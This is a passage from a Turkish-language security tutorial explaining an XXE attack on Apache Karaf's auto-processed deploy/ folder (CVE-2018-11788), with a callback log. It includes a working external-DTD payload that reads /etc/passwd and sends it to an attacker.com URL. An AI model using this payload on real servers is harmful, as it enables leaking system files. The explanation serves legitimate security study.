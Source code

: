 ```
%dtd;
```

- Yukarıda tanımlanan dış kaynağa gidilir, DTD içeriği buraya enjekte edilir.
- Yani `attacker.com/dtd.xml` içeriği buraya gelir.
- Eğer bu dosyada sistem dosyalarını okuyan veya başka yere veri gönderen entity’ler tanımlanmışsa, bunlar çalıştırılır.

Geri kalan XML (target-compatible)

```
<features name="my-features" ...>
    <feature name="deployer" version="2.0" install="auto"></feature>
</features>
```

- Bu XML, Apache Karaf’in beklediği formatta hazırlanmıştır.
- `features.xml` formatındaki yapı Apache Karaf’e eklenecek bileşenleri anlatır.
- Parser bu XML'i işlerken **DOCTYPE içeriğini de işler**, dolayısıyla XXE tetiklenmiş olur.

Canarytokens bu noktada sadece isteğin geldiğini loglar:

```
GET / HTTP/1.1
Host: 27av6zyg33g8q8xu338uvhnsc.canarytokens.com
User-Agent: Java/1.8.0_261
```

Alternatif Kullanım: Dosya Sızdırma (Payload)

* Senin sunucunda `dtd.xml` şöyle olabilirdi:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % send "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%send;
```

Bu durumda hedef sistem senin sunucuna şuna benzer istek yollar:  
`http://attacker.com/?data=root:x:0:0:root:/root:/bin/bash`

Not:  XML dosyasını deploy klasörüne gönderin.

[brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)

##### Apache Karaf ve `deploy` Klasörü

Apache Karaf, bir **OSGi tabanlı uygulama sunucusudur**. XML dosyalarını otomatik olarak işleyebileceği özel bir klasörü vardır:

##### `deploy/` Klasörü Nedir?

- Apache Karaf kurulduğunda, `deploy/` adında bir klasörle birlikte gelir.

- Bu klasöre **XML, JAR, KAR** gibi dosyaları attığında Karaf onları **otomatik olarak işler veya yükler.**

- Özellikle `features.xml` gibi dosyalar burada işlendiğinde içlerindeki **DOCTYPE** tanımlamaları da parse edilir. Yani **XXE tetiklenebilir**.
